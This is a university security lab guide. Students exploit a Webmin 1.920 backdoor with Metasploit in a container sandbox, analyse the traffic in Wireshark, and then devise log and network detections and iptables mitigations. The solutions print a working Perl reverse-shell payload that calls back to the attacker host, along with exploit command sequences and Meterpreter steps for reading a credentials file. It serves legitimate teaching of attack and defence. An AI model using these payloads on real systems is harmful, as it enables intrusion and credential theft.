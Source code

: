 # PB177 – Initial access, execution

[[_TOC_]]

## Learning objectives

At the end of this lab session, you will be able to:
- use Metasploit for initial access and execution using one particular vulnerability,
- use Wireshark for analyzing packets generated by Metasploit,
- detect the particular exploit and mitigate the vulnerability.

<details>
<summary>What is an initial access?</summary> 

Techniques that use various entry vectors to gain their initial foothold within a network.\
See [MITRE ATT&CK® Matrix for Enterprise](https://attack.mitre.org/tactics/TA0001/) for more info.

</details>

<details>
<summary>What is an execution?</summary> 

Techniques that result in adversary-controlled code running on a local or remote system.\
See [MITRE ATT&CK® Matrix for Enterprise](https://attack.mitre.org/tactics/TA0002/) for more info.

</details>

## Start the sandbox

1. Update the repo by running `git pull` in `labs` directory. Go to `2` directory.
1. Login to get access to Podman images: `podman login gitlab.fi.muni.cz:5050`.
1. **Run `podman-compose pull` to download images used in this lab.**
1. Run `podman-compose up -d`.
1. [Check you can access Kali container using terminal and RDP](../1/index.md#start-the-sandbox). This lab uses 3 containers, `podman-compose ps -q | wc -l` should display `3`.

## Metasploit

[Metasploit](https://www.metasploit.com) claims to be the world’s most used penetration testing framework. We will use its open-source flavor named [Metasploit Framework](https://github.com/rapid7/metasploit-framework) ([documentation](https://docs.metasploit.com)).

### Task: Exploit Public-Facing Application

[T1190](https://attack.mitre.org/techniques/T1190/) and [T1059](https://attack.mitre.org/techniques/T1059/).

Based on your previous reconnaissance, you have identified that 10.0.33.80 is a valuable target.\
Use `nmap` at `attacker` to find out more information about the service running at this IP.\
Search the  Metasploit exploit database for an exploit applicable to the service running at the IP.

Hints
  * Start Metasploit in a console or terminal by executing `msfconsole`.
  * Use Metasploit commands for searching rather than a web search engine or AI assistant. 
  * Get Metasploit built-in help by typing `?` or `help`.
  * Use the Up arrow key <kbd>↑</kbd> in `msfconsole` to browse your command history.

<details>

<summary>
Solution
</summary>

* `nmap -sV 10.0.33.80` shows version `MiniServ 1.920 (Webmin httpd)`.
* `search miniserv` in Metasploit does not yield any results.
* `search webmin` yields 12 results.
* `search webmin 1.920` yields one module `exploit/linux/http/webmin_backdoor` with two so-called *targets*.
* `info 0` (or `1` or `2`) shows a description stating "This module exploits a backdoor in Webmin versions 1.890 through 1.920." and "Only version 1.890 is exploitable in the default install. Later affected versions require the expired password changing feature to be enabled."

</details>
<br/>
Now use the module and run another Metasploit command to check whether the target is exploitable. Do not run the exploit yet.

<details>
<summary>
Solution
</summary>

```
use 0
set RHOST 10.0.33.80
check
```

* Set required variables: `RHOST` for the target IP.
* `check` returns `[+] 10.0.33.80:10000 - The target is vulnerable.`.

</details>
<br/>

Run the exploit with the `Unix In-Memory` target. What does it do?

<details>
<summary>
Solution and follow-up task
</summary>

```
set LHOST 10.0.0.2 
run
...
[*] Command shell session 1 opened (10.0.0.2:4444 -> 10.0.33.80:59296) at 2024-09-20 12:35:48 +0000
```
* We need to set a listener host to which our payload can reach back to: `LHOST` must be the address of our `eth0` interface. Alternatively, you can use `set LHOST eth0`.
* Exploit results in **Remote Code Execution** (RCE), see the References section for information about the module (shown by `info` command).
* The exploit sends a **payload**, a code that starts a **reverse shell** in this case. The **reverse** means the target initiates a connection to the attacker's machine. Do you know why the reverse shell is better than initiating a connection from the attacker to the target?
* Once the session is opened, run `hostname` to check the shell is running at the target.
* Note: using a shell executed by the exploit is a [Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/) technique from the [Execution](https://attack.mitre.org/tactics/TA0002/) tactic.
* Use <kbd>Control</kbd> + <kbd>C</kbd> to exit the session, or type `background` to put it into the background, so that you can return to it.

</details>
<br/>

Let the Metasploit console open. You will run the exploit again during next task.

## Wireshark

[Wireshark](https://www.wireshark.org) claims to be the world's most popular network protocol analyzer ([User's Guide](https://www.wireshark.org/docs/wsug_html_chunked/)). Wireshark is installed at Kali. To capture live traffic, we need to enable this feature for non-root users.

### Prerequisite: Enable packet capture for non-root users (kali) and start Wireshark

* Open Terminal in Kali GUI (use RDP to connect to Kali, log in as `kali`).
* Run `sudo dpkg-reconfigure wireshark-common` and answer `<Yes>` to it.
* Add the execute permission for `dumpcap`: `sudo chmod +x /usr/bin/dumpcap`
* Start Wireshark **from the terminal** in a GUI: `wireshark`. 

* Notes: 
  * Do not start Wireshark from Kali GUI menu. 
  * Do not start Wireshark with `sudo` in the terminal.
  * Running `dpkg-reconfigure` and adding `x` permission is required only for the first time.

### Task: Capture traffic of an exploit

* Wireshark shows all interfaces ready for capture after it starts.
* Double click `eth0` interface to start the capture. Alternatively, click on the first icon below File menu (a blue fin).
* Go back to the Metasploit console.
* Run the exploit again and execute the `hostname` command (see the previous Solution and follow-up task).
* Stop the packet capture by the second button below the Edit menu (red stop button).

### Task: Search for traffic with exploit

Search for the first packet carrying an exploit. What **application** protocol is used?\
Search for the shell session and command you have typed.

<details>
<summary>
Solution and follow-up tasks
</summary>

* Webmin is a web application, even though it is **not** running at the default port 80 or 443 but 10000.
* The exploit uses HTTP traffic from `attacker` to the target. The first option is [applying a display filter](https://www.wireshark.org/docs/wsug_html_chunked/ChWorkDisplayFilterSection.html) of `http` to see only HTTP traffic. You should see 6 packets in total. Another option is to filter traffic from and to TCP port 10000 (`tcp.port==10000`).
* Then you can right click on the first packet and use **Follow TCP Stream** or **Follow HTTP Stream** (both in **Follow**, [documentation](https://www.wireshark.org/docs/wsug_html_chunked/ChAdvFollowStreamSection.html)) to see the conversation between `attacker` and the target service. You should see a simple HTTP request for the root of the web (`GET / HTTP/1.1`) and answer, HTML with `<form>` element. You can use <kbd>Control</kbd> + <kbd>F</kbd> for searching in the content of the conversation. You can also save the reply and view the HTML in your browser: Switch from *Entire conversation* to server packets only at the bottom of the window and click *Save as* button. Open the file in your browser (use shell `open file.html` command).
* Conclusion: The first conversation looks like legitimate traffic, not an exploit.
* Close the stream window and clear the filter by deleting it or clicking `X` on the right of the filter input field. Note the display filter has changed to `tcp.stream eq 0` after using the Follow feature.

* Set again the `http` display filter by typing it or invoking from a history by clicking on the small down arrow <kbd>↓</kbd> on the right of the filter input field (useful for long filters).
* Use **Follow TCP/HTTP Stream** again at **the third** packet (the first two formed the first conversation). It is an HTTP POST request on `/password_change.cgi` with the content body starting with `expired=echo`. Save the server reply to HTML and view it in a browser. What did the server reply?
* Conclusion: the second conversation looks like a check or a preparation for exploitation, not an actual exploit. The plugin [source code](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/webmin_backdoor.rb) confirms this observation.

* Inspect the last conversation starting with the **fifth packet**. Again, `POST /password_change.cgi` is sent but with **different request body**. The body contains the variable `expired` again but a different value starting with `perl`.
* To see the content of the variable, select the packet with the POST request in the Packet List pane and expand `HTML Form URL Encoded: application/x-www-form-urlencoded` tree in the Packet Details pane. There you can see keys and values, in particular `expired` and `perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"10.0.0.2:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'`. The value contains the reverse shell (see `[*] Sending cmd/unix/reverse_perl command payload` in your Metasploit console and [source code of the shell](https://github.com/rapid7/metasploit-framework/blob/master/modules/payloads/singles/cmd/unix/reverse_perl.rb)).
* Conclusion: the third conversation contains traffic exploiting the vulnerability and starting the reverse shell session.

* The reverse shell session is initiated **from the target to the `attacker`** at port 4444 (see the exploit source code and/or output in the Metasploit console).
* Filtering TCP port 4444 shows a few packets. *Follow TCP Stream* shows not only your command and server reply but also `echo` command. Who/what did execute this command and why?

</details>

## Task: Detection and mitigation of the exploit

How can this particular exploit be detected and mitigated?

Check detections for [Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/) and [Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/) and suggest one detection using network traffic and another detection using application logs.

<details>
<summary>
Solution and follow-up task -- network traffic
</summary>

* One option is to monitor and report HTTP POST requests to `password_change.cgi`, which should not be frequent.
* Another option is to search for a code of the reverse shell or its parts (such as `perl`, `fork`, `new IO::Socket::INET` or `system`) in general , or only in HTTP POST requests to `password_change.cgi`.
* What are the pros and cons of these two methods?
* Do you have another idea? Share it with the instructor.

</details>

<details>
<summary>
Solution and follow-up task -- application logs
</summary>

* According to [Webmin documentation](https://webmin.com/docs/modules/webmin-actions-log/), when the logging is enabled, the logs are stored in `/var/webmin/miniserv.log`.
* Similarly to network detection, access to `password_change.cgi` might be suspicious.
* Can you write a BASH one-liner to detect such accesses? Connect to the target using `podman-compose exec server bash` and test it at the target. 
<details>
<summary>
Solution: BASH one-liner
</summary>

`grep 'POST /password_change.cgi' /var/webmin/miniserv.log`
</details>
</details>

What do you think is the simplest [mitigation](https://attack.mitre.org/techniques/T1190/) for implementation?

<details>
<summary>
Solution and follow-up tasks
</summary>

We consider **Network Segmentation** followed by **Update Software** the simplest for implementation. 

**Network Segmentation**

Network segmentation can be done by allowing access to the Webmin service only from the internal network, i. e. 10.0.33.0/24 in our case. Attacker with IP 10.0.0.2 will not access the target then.

Set up [iptables](https://www.netfilter.org/projects/iptables/index.html) at the target to restrict access to the Webmin service from outside.

<details>
<summary>
Solution and follow-up tasks
</summary>

* The most suitable option is to **reject** or **drop** traffic going to TCP port 10000 coming from outside 10.0.33.0/24 but still allowing access from inside, i. e.: `iptables -A INPUT -p TCP --dport 10000 ! --source 10.0.33.0/24 -j REJECT`.
  * `-A` adds a rule being applied to incoming packets,
  * `-p` specifies the protocol, 
  * `--dport` the destination port, the port where Webmin is running,
  * `!` is a `NOT` operator for the following parameter,
  * `--source` specifies the source network, together with the preceding `!` says "NOT 10.0.33.0/24",
  * `-j` says what to do if the packet matches the rule.
</details>
<br/>

Now test if the mitigation works as expected. Access the server from `attacker` and `server2`.

<details>
<summary>
Solution and follow-up tasks
</summary>

* Check the `attacker` **cannot** access the Webmin at the target, either using a web browser at Kali, or using `curl` in CLI.
* Check the other hosts in the same network (10.0.33.0/24) **can** access the Webmin at the target. Connect to `server2` using `podman-compose exec server2 bash` and run `curl http://10.0.33.80:10000`.

</details>
<br/>

Finally, examine differences between two iptables rules in network traffic using Wireshark. See solution of the first task in Network segmentation if you are not sure which two rules we mean.

<details>
<summary>
Solution and follow-up tasks
</summary>

* Open Wireshark at `attacker` in GUI and start traffic capture. Run the check from `attacker` again and see the response from the target. How does `iptables` tell `attacker` the traffic is rejected?
* Delete the rule (`man` pages are not installed at the target, use their [online version](https://linux.die.net/man/8/iptables)). Check the iptables are empty.
* Add a new rule, which differs only in an action specified by `-j`: `iptables -A INPUT -p TCP --dport 10000 ! --source 10.0.33.0/24 -j DROP`
* Run the check from `attacker` again. What are the differences? Check the `curl` output and packet capture in Wireshark.
* What action would you prefer to be set as an attacker and what as the defender?

</details>
<br/>

**Update Software**

Since the vulnerability (backdoor) is present only in Webmin versions 1.890 through 1.920, there is [a newer version fixing it](https://webmin.com/archives/). 

However, software updates, in general, may require configuration changes or may affect other features when the newer version is not backward-compatible, so it must be done after studying the software changelog or documentation.

</details>

## Task: Use Meterpreter for execution

[T1059](https://attack.mitre.org/techniques/T1059/)

The exploit can have two targets: `Unix In-Memory` and `Linux Dropper`, see output of the `search` or `info` command. Use `Linux Dropper` and run the exploit again. What do you get after the successful exploitation?

> Hint: Remove the iptables rule to be able to run the exploit from attacker.

<details>
<summary>
Solution and follow-up tasks
</summary>

```
info exploit/linux/http/webmin_backdoor
set TARGET 1
run

[*] Started reverse TCP handler on 10.0.0.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Configuring Automatic (Linux Dropper) target
[*] Sending linux/x64/meterpreter/reverse_tcp command stager
[*] Sending stage (3045380 bytes) to 10.0.33.80
[*] Meterpreter session 1 opened (10.0.0.2:4444 -> 10.0.33.80:51814) at 2024-09-27 08:58:43 +0000
[*] Command Stager progress - 100.00% done (823/823 bytes)

meterpreter >
```

* The second available target runs [Meterpreter](https://www.offsec.com/metasploit-unleashed/about-meterpreter/) instead of a simple reverse shell. Meterpreter features command history, tab completion, channels, file uploads and downloads, and more.
* Type `help` to list available commands.
* Print information about the remote system, namely its operating system.
* Print the working directory and list files at the target machine.
* Print out the content of `miniserv.users` in `/etc/webmin`.
* Download the file to your local machine.
* Start a shell at the remote system, type a few commands, and use arrow keys to browse your command history.
* Exit the shell to Meterpreter.
* Close the Meterpreter session.
* Exit the Metasploit console.

> Note: You can also upgrade your `in-memory` perl reverse shell to a Meterpreter shell. Background the opened shell by typing `background`. List your sessions with the `sessions` command and note the **session id** attribute. Then use `sessions -u <id>` to upgrade (opens a new Meterpreter session).


</details>


## End of the lab

If you finish all tasks, stop the sandbox using `podman-compose down`.
